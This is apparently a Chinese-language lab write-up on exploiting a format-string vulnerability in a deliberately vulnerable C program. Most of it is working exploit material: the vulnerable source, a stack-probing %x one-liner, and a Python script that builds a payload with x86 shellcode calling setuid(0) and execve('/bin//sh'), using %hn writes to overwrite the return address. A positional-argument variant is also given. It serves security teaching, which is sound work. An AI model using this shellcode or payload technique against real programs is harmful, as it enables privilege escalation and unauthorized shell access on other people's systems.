




# 注入恶意代码

前面实现了向任意一个地址写入任意值，可以使用相同的技术修改函数的返回地址，令地址指向注入的恶意代码。

```c
#include <stdio.h>

void fmtstr(char *str)
{
    unsigned int *framep;
    unsigned int *ret;
    
    asm("movl %%ebp, %0" : "=r" (framep));  // copy ebp into framep
    ret = framep + 1;
    
    printf("The address of the input array: 0x%.8x\n", (unsigned)str);
    printf("The value of the frame pointer: 0x%.8x\n", (unsigned)framep);
    printf("The value of the return address: 0x%.8x\n", *ret);
    printf(str);
    printf("\nThe value of the return address: 0x%.8x\n", *ret);
}

int main(int argc, char **argv)
{
    FILE *badfile;
    char str[200];
    
    badfile = fopen("badfile", "rb");
    fread(str, sizeof(char), 200, badfile);
    fmtstr(str);
    
    return 1;
}
```




***攻击策略的四个挑战***:  
1、注入恶意代码到栈中：可以简单地在格式化字符串末尾包含一段shellcode  
2、找到恶意代码的起始地址A：恶意代码存放在数组str中，str地址0xbffff644（）  
3、找到返回地址保存的位置B： 返回地址在栈帧上面4个字节，0xbffff618 + 4 = 0xbffff61c  
4、把A写入B的内存：

    实验中跳转到str[]数组偏移量0x90的地方，因此地址是0xbffff644 + 0x90 = 0xbffff6c4，
    这是要写入返回地址域的数据，因此需要往地址0xbffff61c中写入0xbffff6c4。  
    
为了缩短进攻时间，把0xbffff6c4的4个字节分隔成两个连续的2字节内存块，起始地址分别是
0xbffff6c4和0xbffff6c6，需要往0xbffff6c6中写入0xbfff，往0xbffff6c4中写入0xf6c4

现在剩下的问题是要知道当printf函数调用时，它的va_list指针要移动多少次才能到达放在str数组中的
地址0xbffff61e

```bash
echo $(printf "\x1e\xf6\xff\xbf@@@@\x1c\xf6\xff\xbf")%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x: > badfile
./fmtvul
```

从实验结果可知，0xbffff60e是第21个数，前面需要20个%x才能到达第一个地址（这个图是第一次实验时的地址，里面地址要改下）    

!!! 两个关键地址

    0xbffff608 0xbffff60c -> 0xbffff618  0xbffff61c  第一次得到的地址  
    0xbffff634 0xbffff6c4  -> 0xbffff644  0xbffff6d4 最终的地址  
    地址是栈帧地址加4，数据是数组地址加0x90  
    之前的文档是按第一个地址写的，写上这个万一有没改全的做个参考  
    
```python
#!/usr/bin/python3
import sys


shellcode = (
    "\x31\xc0"
    "\x31\xdb"
    "\xb0\xd5"
    "\xcd\x80"
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')

N = 200 

content = bytearray(0x90 for i in range(N))
start = N - len(shellcode)
# 把shellcode放在尾部
content[start:] = shellcode

# 把返回值域的地址放在格式化字符串的头部
addr1 = 0xbffff61e
addr2 = 0xbffff61c
content[0:4] = (addr1).to_bytes(4, byteorder='little')
content[4:8] = ("@@@@").encode('latin-1')
content[8:12] = (addr2).to_bytes(4, byteorder='little')

# 加上%x和%hn
small = 0xbfff - 12 - 19*8
large = 0xf6d4 - 0xbfff
s = "%.8x"*19 + "%." + str(small) + "x%hn%." + str(large) + "x%hn"

fmt = (s).encode('latin-1')
content[12:12+len(fmt)] = fmt

file = open("badfile", "wb")
file.write(content)
file.close()
```

```python
small = 0xbfff - 12
large = 0xf6d4 - 0xbfff
s = "%." + str(small) + "x" + "%21$hn" + \
    "%." + str(large) + "x" + "%23$hn"
```


成功进行字符串格式化漏洞攻击  &#x1F44D;&#x1F44D;&#x1F44D;

!!! warning

    注意fmtvul的地址会变化，要以最后一次运行攻击时为准
    
## 减少格式化字符串的长度

```c
#include <stdio.h>

int main()
{
    int var = 1000;
    printf("%5$.20x%6$n\n", 1, 2, 3, 4, 5, &var);
    printf("The value in var: %d\n", var);
    return 0;
}
```
